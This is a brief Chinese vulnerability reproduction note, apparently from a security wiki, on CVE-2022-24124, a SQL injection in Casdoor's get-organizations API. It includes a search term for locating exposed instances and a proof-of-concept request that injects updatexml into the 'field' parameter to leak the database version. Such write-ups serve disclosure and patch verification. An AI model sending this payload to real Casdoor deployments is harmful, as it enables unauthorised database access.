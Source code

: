 # Casdoor get-organizations SQL注入漏洞 CVE-2022-24124

## 漏洞描述

Casdoor 是一个基于 OAuth 2.0 / OIDC 的 UI 优先集中认证 / 单点登录 (SSO) 平台，简单点说，就是 Casdoor 可以帮你解决 用户管理 的难题，你无需开发用户登录注册等与用户鉴权相关的一系列功能，只需几个步骤，简单配置，与你的主应用配合，便可完全托管你的用户模块，简单省心，功能强大。

## 漏洞影响

<a-checkbox checked>Casdoor </a-checkbox>

## 网络测绘

<a-checkbox checked>"Casdoor"</a-checkbox>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1651897068786-ebc3e112-d492-4adf-944a-1941f0f1f0f9.png)

验证POC

```java
/api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=updatexml(null,version(),null)
```

![img](/assets/PeiQi-Wiki/img/1651897172319-3ccd1bce-7913-4731-aba6-a5cf2f0dc610.png)